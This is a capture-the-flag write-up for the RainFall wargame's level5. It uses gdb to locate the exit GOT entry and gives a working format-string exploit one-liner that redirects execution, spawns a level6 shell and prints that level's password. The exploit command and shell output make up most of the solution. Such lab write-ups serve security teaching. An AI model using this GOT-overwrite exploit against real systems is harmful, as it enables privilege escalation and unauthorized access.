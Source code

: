 # level5

## Header

```bash
ssh level5@192.168.64.9 -p 4242
...
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level5/level5
```

<hr>

## Solution

This level uses format string attack again, but there is no `m` variable to overwrite, so we'll overwrite `exit` address in the `GOT` table. See [disassembled code](./source.s) and [source](./source.c) file to understand more.


```bash
level5@RainFall:~$ gdb -batch -ex 'disas n' level5 | grep exit
   0x080484ff <+61>:    call   0x80483d0 <exit@plt>

level5@RainFall:~$ gdb -batch -ex 'disas 0x80483d0' level5
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:     jmp    *0x8049838
   0x080483d6 <+6>:     push   $0x28
   0x080483db <+11>:    jmp    0x8048370
End of assembler dump.
```
So, the address that resolves exit function is `0x8049838`.

The next thing we need is address of `o` function:
```bash
level5@RainFall:~$ gdb -batch -ex 'p o' level5
$1 = {<text variable, no debug info>} 0x80484a4 <o>
```

And a little trick to convert hex numbers to decimal in bash:
```bash
level5@RainFall:~$ $((0x80484a4))
134513828: command not found
```

Let's exploit now (pay attention, we subtracted 4 bytes from `o` address):
```bash
level5@RainFall:~$ (python -c 'print "\x38\x98\x04\x08" + "%134513824c" + "%4$n"'; cat) | ./level5
whoami
level6
id
uid=2045(level5) gid=2045(level5) euid=2064(level6) egid=100(users) groups=2064(level6),100(users),2045(level5)
pwd
/home/user/level5
cd ../level6
ls -la   
total 17
dr-xr-x---+ 1 level6 level6   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level6 level6  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level6 level6 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level7 users  5274 Mar  6  2016 level6
-rw-r--r--+ 1 level6 level6   65 Sep 23  2015 .pass
-rw-r--r--  1 level6 level6  675 Apr  3  2012 .profile
cat .pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

## References
- [The video, that explains solution to almost the same problem](https://www.youtube.com/watch?v=t1LH9D5cuK4)
- [GOT and PLT](https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html)
